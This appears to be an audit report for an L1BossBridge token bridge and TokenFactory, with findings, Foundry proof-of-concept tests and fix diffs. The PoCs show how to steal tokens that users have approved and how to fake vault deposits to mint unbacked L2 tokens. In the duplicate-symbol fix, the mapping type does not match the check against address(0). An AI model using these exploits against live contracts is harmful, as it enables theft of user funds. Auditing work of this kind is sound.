### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assest stolen

The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).



#### PoC:
As a PoC, include the following test in the `L1BossBridge.t.sol` file:


``` solidity 
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```

#### Recommendation: 

Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

``` diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```



### [H-2] Calling `depositTokensToL2` from the Vault contract to the Vault contract allows infinite minting of unbacked tokens

`depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves. 


#### PoC:
As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

``` solidity
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```

#### Recommendation: 

As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.



### [L-1] `TokenFactory::deployToken` can create multiple token with same symbol. Malicious actors may use a potential duplicate token with matching symbols identical to established ones, potentially deceiving users and facilitating fraud, phishing, or trading errors.




#### PoC: 

``` solidity 
    mapping(string tokenSymobl => address[] tokenAddress) public s_tokenToAddress;

    function setUp() public {
        vm.prank(owner);
        tokenFactory = new TokenFactory();
    }

    function testMultipleSymbols() public {
        vm.startPrank(owner);

        // create first token 
        tokenFactory.deployToken("TEST", type(L1Token).creationCode);

        // create second token 
        tokenFactory.deployToken("TEST", type(L1Token).creationCode);
        
        vm.stopPrank();
    }
```

#### Recommendation: 


``` diff

+    error TokenFactory__duplicateSymbol();
+    error TokenFactory__tokenCreationFailed();

    function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
        // if token already created it shouldn't have an address(0)
+       if (s_tokenToAddress[symbol] != address(0)) { revert TokenFactory__duplicateSymbol(); }

        assembly { 
            addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
        }

         // ensuring the creation of the new token is successful 
+        if (addr == address(0)) { revert TokenFactory__tokenCreationFailed(); }

        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }

```

<summary>Test the added fix</summary>

``` solidity 
    function testFix() public {
        vm.startPrank(owner);

        tokenFactory.deployToken("TEST", type(L1Token).creationCode);

        vm.expectRevert(TokenFactory.TokenFactory__duplicateSymbol.selector);
        tokenFactory.deployToken("TEST", type(L1Token).creationCode);
        vm.stopPrank();
    }
```
